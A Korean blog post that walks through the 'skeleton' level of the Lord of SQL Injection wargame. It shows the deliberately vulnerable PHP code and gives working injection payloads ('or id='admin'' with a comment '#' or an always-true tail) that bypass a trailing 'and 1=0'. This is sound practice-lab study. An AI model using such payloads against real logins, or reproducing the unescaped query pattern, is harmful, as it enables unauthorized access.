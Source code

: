 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - skeleton 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


내일이 월요일이라니 실화인가.  

주말 너무 순삭되는 것 같다.  

지금 진행중인 `CTF` 문제를 풀고 싶은데 아직 내 실력으로는 무리라는걸 깨닫고 다시 `LOS`를 풀려고 돌아왔다.  

<!--more-->

이번 문제의 이름은 `skeleton` 이다.  

코드는 다음과 같다.  

```php
------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='' and 1=0
------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

이번 문제도 역시 소스코드가 짧다.  

딱히 큰 필터링은 없는데 이번엔 쿼리가 달라져있다.  

`pw`를 사용자로부터 받아오는데, 뒤에 `and 1=0`이 있어 무조건 마지막에 입력한 쿼리는 `false`가 된다.  

예를 들어, 내가 이 전에 문제들을 풀었던 것 처럼 `pw`에 `1' or id='admin`을 입력한다면 완성되는 쿼리는 다음과 같다.  

```
select id from prob_skeleton where id='guest' and pw='1' or id='admin' and 1=0
```

때문에 내가 입력한 값이 `id=admin and 1=0` 를 만들게 되는 것이다.  

그럼 뒤의 `and 1=0`을 실행 못하게 하면 문제를 풀 수 있을 것 같다.  

사실 아래처럼 입력해도 문제를 풀 수 있다.  

```
?pw=1' or id='admin' or '1'='1
```

이렇게 되면 `id='admin'`를 기준으로 앞과 뒤의 쿼리가 모두 `false`고 `id='admin'`만 `true`가 되어 결과적으로 `admin`을 추출할 수 있다.  

근데 귀찮아서 문제를 풀 때는 그냥 `#`으로 주석처리 했다.  

```
?pw=1' or id='admin'%23
```

역시 문제 풀때는 간단한 방법이 최고다.  


```php
----------------------------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='1' or id='admin'#' and 1=0
----------------------------------------------------------------------------------------------

SKELETON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

`SKELETON Clear!!`